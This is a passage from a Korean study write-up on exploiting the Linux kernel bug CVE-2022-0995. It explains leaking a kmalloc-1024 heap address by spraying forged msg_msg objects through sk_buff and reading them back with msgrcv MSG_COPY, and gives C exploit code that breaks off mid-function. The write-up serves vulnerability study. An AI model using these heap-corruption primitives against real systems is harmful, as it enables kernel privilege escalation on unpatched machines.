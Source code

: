 따라서 `kmalloc-1024` 영역의 주소를 알기 위해 다음과 같은 전술을 채택한다. 

먼저 `sk_buff`를 이용해 릭한 힙 영역의 주소 - 8을 `msg_msg.next`에 덮어쓴다. 그 후, 해당 메시지를 읽으면, 4096 바이트 뒤에 다음 메시지는 릭한 힙 영역에서 읽어오게 된다. 이때 그 영역은 `kmalloc-96`에 할당된 `msg_msg`객체가 될 것이다. 이를 그림으로 표현하면 다음과 같다. 

![](/assets/img/study/cve_2022_0995_part2/leak-1024.png)

`kmalloc-96`의 `m_list.next`에는 `kmalloc-1024`영역에 할당된 `msg_msg`객체의 포인터가 있다! 따라서 우리는 이 방법을 통해 `kmalloc-1024`영역의 주소를 가져올 수 있다. 

```c
void sk_buff_spray2(uint64_t fake_kmalloc_96_addr)
{
    int i, j;
    /* make msg_msg buff*/
    struct msg_msg* sk_buff = (struct msg_msg*)malloc(SK_BUFF_SPRAY_SIZE);
    sk_buff->m_list.next = 0x4141414141414141;
    sk_buff->m_list.prev = 0x4242424242424242;
    sk_buff->m_type = MSG_TYPE_FAKE;
    sk_buff->m_ts = 8192 - 0x30;
    sk_buff->next = fake_kmalloc_96_addr - 8;
    sk_buff->security = 0;
    
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], (void*)sk_buff, SK_BUFF_SPRAY_SIZE) < 0)
            {
                perror("sk_buff_spray: failed write buffer");
                exit(0);
            }
        }
    }
}

uint64_t leak_heap_addr2()
{
    struct msg_buf* message = malloc(8192);
    uint64_t leaked_heap_addr;
    if (msgrcv(spray_queue[corrupted_queue_index], message, 8192 - 0x30, 1, IPC_NOWAIT | MSG_COPY) < 0)
    {
        perror("leak_heap_addr2: msgrcv failed\n");
```